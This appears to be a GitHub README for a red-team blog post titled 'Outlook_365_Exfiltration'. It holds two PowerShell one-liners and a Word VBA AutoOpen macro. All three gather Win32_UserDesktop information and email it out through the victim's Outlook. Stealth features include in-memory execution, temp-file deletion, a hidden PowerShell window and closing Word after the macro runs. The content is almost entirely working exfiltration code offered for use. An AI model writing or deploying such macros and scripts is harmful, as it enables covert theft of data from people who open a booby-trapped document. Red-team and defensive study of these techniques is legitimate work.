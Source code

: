 # Outlook_365_Exfiltration

Code from my blog post https://labs.lares.com/outlook-for-the-pwn/

PowerShell

Executes Enumerate_domain_users_win32_userdesktop and emails the results to the defined email address using clients outlook but drops to disk for temp and deletes after.

Get-CimInstance -ClassName Win32_UserDesktop | Format-Table -AutoSize | Out-String -Stream | Out-File -FilePath $env:TEMP\Win32_UserDesktop.txt ; $email = New-Object -ComObject Outlook.Application; $mail = $email.CreateItem(0); $mail.To = "Add-Recipient-Email-Address"; $mail.Subject = "Win32_UserDesktop"; $mail.Body = "Please find attached the results of the Win32_UserDesktop query."; $attachment = $mail.Attachments.Add("$env:TEMP\Win32_UserDesktop.txt"); $mail.Send(); Remove-Item -Path $env:TEMP\Win32_UserDesktop.txt


Same as above but does not save to disk, all in memory. 

$result = Get-CimInstance -ClassName Win32_UserDesktop | Format-Table -AutoSize | Out-String ; $email = New-Object -ComObject Outlook.Application; $mail = $email.CreateItem(0); $mail.To = "Add-Recipient-Email-Address"; $mail.Subject = "Win32_UserDesktop"; $mail.Body = "Please find the results of the Win32_UserDesktop query below:`n`n$result"; $mail.Send();


VBA Script

Works, closes word after it completes.

Sub AutoOpen()
    Dim shell, exec, outlook, mail, attachment
    Set shell = CreateObject("WScript.Shell")
    Set exec = shell.Exec("powershell.exe -WindowStyle Hidden -Command ""Get-CimInstance -ClassName Win32_UserDesktop | Format-Table -AutoSize | Out-String -Stream | Out-File -FilePath $env:TEMP\Win32_UserDesktop.txt""")
    Do While exec.Status = 0
        ' Wait for PowerShell command to finish
    Loop
    If exec.ExitCode = 0 Then
        ' PowerShell command succeeded, send email with attachment
        Set outlook = CreateObject("Outlook.Application")
        Set mail = outlook.CreateItem(0)
        mail.To = "Add-Recipient-Email-Address"
        mail.Subject = "Win32_UserDesktop"
        mail.Body = "Please find attached the results of the Win32_UserDesktop query."
        Set attachment = mail.Attachments.Add(shell.ExpandEnvironmentStrings("%TEMP%") & "\Win32_UserDesktop.txt")
        mail.Send
        Set attachment = Nothing
        Set mail = Nothing
        Set outlook = Nothing
        Application.Quit
    Else
        ' PowerShell command failed, show error message
        MsgBox "Error: PowerShell command failed with exit code " & exec.ExitCode
    End If
End Sub

